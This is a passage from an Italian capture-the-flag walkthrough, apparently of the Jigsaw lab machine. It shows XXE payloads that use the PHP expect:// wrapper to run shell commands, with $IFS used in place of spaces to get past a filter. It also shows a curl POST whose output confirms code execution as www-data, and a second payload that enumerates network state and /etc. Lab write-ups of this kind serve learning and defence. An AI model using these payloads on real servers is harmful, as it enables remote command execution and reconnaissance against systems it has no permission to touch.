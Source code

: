 ```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ELEMENT email ANY >
<!ELEMENT password ANY >
<!ENTITY xxe SYSTEM "expect://id;ls$IFS-l;pwd">
]>

<root>
	<email>&xxe;</email>
   <password>xxee</password>
</root>
```


Nota : Troviamo delle limitazioni nell'esecuzione di comandi date dallo schema xml e dall'expect stesso.  
Se si introduce all'interno della stringa di expect uno dei caratteri >,| o lo spazio (ma anche qualche altro), questo crea problemi nel passaggio di parametri ai comandi.
Essendo eseguito in ambiente bash, per il carattere spazio possiamo per esempio sfruttare una variabile builtin con un trick simile a questo ($IFS) per bypassare questa restrizione.
e lanciamo il test :

```
root@kali:~/Jigsaw# curl -q -d @cookies.txt -X POST http://192.168.1.140/w4n770p14y494m3/game2.php 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
total 116
-rw-r--r-- 1 www-data www-data    292 May 10 03:47 game2.php
-rw-r--r-- 1 www-data www-data 106488 Aug 31  2017 image.jpg
-rw-r--r-- 1 www-data www-data   2110 May 10 03:46 index.html
drwxr-xr-x 2 www-data www-data   4096 May  9 08:38 js
/var/www/html/w4n770p14y494m3
```

Bingo!In questo caso il modulo expect risulta installato.
Possiamo quindi effettuare una analisi piu' approfondita sul target.
Dato che pensiamo che ci possa essere attivo il firewall che blocca, prendiamo qualche altra informazione, iniettando qualcosa come sotto :

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ELEMENT email ANY >
<!ELEMENT password ANY >
<!ENTITY xxe SYSTEM "expect://id;ls$IFS-l;pwd;netstat$IFS-na;lsof;ss;ls$IFS-l$IFS/home/*;ls$IFS-l$IFS/etc/apache2/*;ls$IFS-l$IFS/etc/*">
]>

<root>
	<email>&xxe;</email>
   <password>aaa</password>
</root>
```

E leggiamo qualche file interessante per i nostri scopi , anche se non abbiamo accesso a tutti :
